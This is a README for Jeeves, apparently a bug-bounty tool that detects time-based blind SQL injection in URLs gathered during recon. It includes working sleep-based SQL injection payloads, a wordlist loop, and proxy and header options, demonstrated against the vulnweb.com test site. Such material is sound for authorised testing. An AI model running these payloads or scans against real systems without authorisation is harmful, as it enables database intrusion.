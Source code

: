 <h1 align="center">Jeeves</h1> <br>

<p align="center">
  <a href="#--usage--explanation">Usage</a> •
  <a href="#--installation--requirements">Installation</a>
</p>

<h3 align="center">Jeeves is made for looking to Time-Based Blind SQLInjection through recon.</h3>
<img src="gojayyyy.png">

## - Installation & Requirements:
```
> go install github.com/ferreiraklet/Jeeves@latest

OR

> git clone https://github.com/ferreiraklet/Jeeves.git

> cd Jeeves

> go build jeeves.go

> chmod +x jeeves

> ./jeeves -h
```
<br>


## - Usage & Explanation:
  * In Your recon process, you may find endpoints that can be vulnerable to sql injection,
  
    * Ex: https://redacted.com/index.php?id=1

    <br>
  
    Jeeves reads from stdin:
    
   
    
    `echo 'https://redacted.com/index.php?id=your_time_based_blind_payload_here' | jeeves --payload-time time_payload`
    <br>
  
    In --payload-time you must use the time mentioned in payload.
 
    <br>
    
    **You can use a file containing a list of targets as well**:
  
    `cat targets | jeeves --payload-time 5`
  
    <br>
    
 * **You are able to use of Jeeves with other tools, such as gau, gauplus, waybackurls, qsreplace and bhedak, mastering his strenght**
    <br>
    * Another examples of usage:
  
    
      ```bash
       Usage:
       --payload-time,      The time from payload
       --proxy              Send traffic to a proxy
       -c                   Set Concurrency
       -H, --headers        Custom Headers
       -h                   Show This Help Message
      ```
       
       
  
    Ex 1 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5`
    
    <br>
    
    Ex 2 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(10)))v)" | jeeves --payload-time 10`
    
    <br>
    
    Ex 3 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5 --proxy "http://ip:port"`
    
    <br>
    
    Ex 4 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5 --proxy "http://ip:port" -H "User-Agent: xxxx"`
    
    <br>
    
    You can specify more than one header, OBS: Be careful, the syntax must be exact the same, Ex:
    
    Ex 5 - `echo "http://testphp.vulnweb.com/artists.php?artist=" | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 5 -H "Testing: testing;OtherHeader: Value;Other2: Value"`
    
    TIP:
    
    Using with sql payloads wordlist
    `cat sql_wordlist.txt | while read payload;do echo http://testphp.vulnweb.com/artists.php?artist= | qsreplace $payload | jeeves --payload-time 5;done`
    
    
    OBS: 
    * Does not follow redirects, If the Status Code is diferent than 200, it returns "Need Manual Analisys"
    * Jeeves does not http probing, he is not able to do requests to urls that does not contain protocol ( http://, https:// )

<br>


## This project is for educational and bug bounty porposes only! I do not support any illegal activities!.

If any error in the program, talk to me immediatly.
